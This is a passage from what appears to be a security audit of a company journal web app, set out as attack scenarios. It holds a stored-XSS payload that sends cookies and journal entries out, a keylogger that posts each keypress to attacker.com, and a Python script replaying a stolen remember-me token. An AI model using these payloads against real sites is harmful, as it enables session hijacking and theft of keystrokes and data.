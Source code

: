 ```javascript
        victim: document.cookie,
        entries: entries,
        url: window.location.href
    })
});

// Install keylogger
document.addEventListener('keypress', e => {
    fetch('https://attacker.com/log?key=' + e.key);
});
">
```

### Step 4: Privilege Escalation
```javascript
// If CEO views the infected journal entry, their session is stolen
// Attacker now has CEO access and can:
// 1. View all PowerPoint presentations (financial data, strategy)
// 2. Read all journal entries (confidential thoughts, plans)
// 3. Modify content to spread disinformation
```

**Total Impact**: 
- All employee journal entries stolen
- CEO's strategic plans exposed
- Financial presentations leaked
- Potential insider trading information obtained

---

## 🔓 Attack Scenario 2: The Disgruntled Ex-Employee

**Target**: Former employee seeking revenge

### Step 1: Persistent Backdoor via Remember Me
Before leaving, employee creates backdoor:
```python
# While still employed, they:
1. Check "Remember me for 30 days" on multiple devices
2. Copy the remember_token cookie value
3. Note their user ID from journal entries
```

### Step 2: Post-Employment Access
After being fired:
```python
# 2 weeks later, from home:
import requests

cookies = {
    'remember_token': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...',
    'session': 'deleted'  # Clear session to trigger remember me
}

# Auto-login still works!
response = requests.get('https://gvisit.company.com/journal',
                       cookies=cookies)
# They're back in!
```
